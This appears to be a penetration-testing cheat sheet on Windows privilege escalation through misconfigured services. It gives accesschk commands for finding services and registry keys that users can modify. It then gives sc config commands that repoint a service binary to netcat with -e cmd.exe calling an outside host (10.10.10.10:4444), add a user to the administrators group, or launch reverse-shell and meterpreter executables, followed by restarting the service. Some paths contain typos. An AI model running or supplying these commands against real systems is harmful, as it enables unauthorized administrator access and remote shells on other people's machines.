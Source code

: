 # Service Exploit

**DOWNLOAD ACCESSCHK.EXE**  
[http://live.sysinternals.com/accesschk.exe](http:/live.sysinternals.com/accesschk.exe)

## Check if User can modify a service

```powershell
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
accesschk.exe -uwcqv %USERNAME% * /accepteula
accesschk.exe -uwcqv "BUILTIN\Users" * /accepteula 2>nul
```

If the group `Authenticated users` has `SERVICE_ALL_ACCESS` in a service, then it can modify the binary that is being executed by the service. 

To modify it and execute netcat you can do:

```powershell
sc config <Service_Name> binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
sc config <Service_Name> binpath= "net localgroup administrators username /add"
sc config <Service_Name> binpath= "cmd \c C:\Users\nc.exe 10.10.10.10 4444 -e cmd.exe"
sc config SSDPSRV binpath= "C:\Documents and Settings\PEPE\meter443.exe"
```

## Insecure Service Permissions

```powershell
# Check the permissions on a service
accesschk.exe /accepteula -uwcqv user <SERVICE NAME>
accesschk.exe /accepteula -uwcqv user daclsvc

# Check what the service does
sc qc daclsvc

# Check the status (RUNNING or STOPPED)
sc query daclsvc
```

If you can change config, the easies way to privesc is change BINARY PATH to the location of a reverse shell EXE.

```powershell
# Change the binary path
sc config daclsvc binpath= "\"C:\users\bob\reverse.exe\""
(NOTE THE SPACE after the "=" sign)

Start a netcat listener.

# Start the service or reboot the system
net start daclsvc
shutdown /r
```

## Weak Registry Permissions

```powershell
In WinPEAS shows as:
[?] Check if you can modify the registry of a service
 HKLM\system\currentcontrollerset\services\regsvc

# Check permission using Powershell
powershell -exec bypass

.\accesschk.exe /accepteula -uvwqk HKLM\system\currentcontrollerset\services\regsvc
RW NT AUTHORITY\SYSTEM
RW BUILTIN\Administrators
RW NT AUTHORITY\INTERACTIVE

It is executed as ADMINISTRATOR. We can escalate privileges.

# Verify if we can start/stop the service
.\accesschk.exe /accepteula -ucqv user regsvc
SERVICE_START
SERVICE_STOP

# Check the current values in the register
reg query HKLM\system\currentcontrollerset\services\regsvc
Look for ImagePath location and upload a reverse shell to where it is pointing.

# Start the service
net start regsvc
```
